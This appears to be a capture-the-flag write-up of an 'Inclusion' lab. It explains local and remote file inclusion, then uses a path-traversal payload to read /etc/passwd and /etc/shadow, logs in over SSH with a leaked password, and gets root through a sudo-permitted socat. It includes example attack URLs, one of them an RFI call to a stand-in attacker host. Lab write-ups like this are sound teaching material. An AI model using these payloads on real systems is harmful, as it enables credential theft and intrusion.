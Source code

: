 # INCLUSION

#### IP Address: 10.10.16.93

First, I ran a basic nmap scan on the target machine with standard scripts loaded and version enumeration configured. The results are as follows:

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are two services running on the target machine: **ssh** and **http**. For the http server, we can see that the http-title is 'My blog'.

Let's first check out the http webserver. Navigating to the website in my web browser, I came to this page:

<img style="float: left;" src="screenshots/screenshot2.png">

Before I conducted my happy-path enumeration, I started a Gobuster directory scan to see if I can obtain any hidden directories. The Gobuster command used was:

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

I made sure to include common extensions in my enumeration, such as **.php** and **.js**. I also used Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan was going on, I started to explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', I'll probably have to carry out some form of **Local File Inclusion attack** using this search field.

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.



#### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```



#### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```



Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

<img style="float: left;" src="screenshots/screenshot3.png">



Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

<img style="float: left;" src="screenshots/screenshot4.png">

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

<img style="float: left;" src="screenshots/screenshot5.png">

The attack worked! The contents of the /etc/passwd file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

<img style="float: left;" src="screenshots/screenshot6.png">

Sure enough, I could read the /etc/shadow file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

 <img style="float: left;" src="screenshots/screenshot7.png">

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice, that was his password after all. 

#### With that, I could obtain the user flag

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like **linpeas**, I first did some manual enumeration first. 

First, I ran the command

```
sudo -l
```

to see what sudo privileges that falconfeast had.

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like he can run **socat** as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I decided to use socat to spawn a shell as root

<img style="float: left;" src="screenshots/screenshot10.png">

After running the command above, I managed to spawn a shell as root:

<img style="float: left;" src="screenshots/screenshot11.png">



#### With that, I can easily navigate towards root's home directory and obtain the root.flag

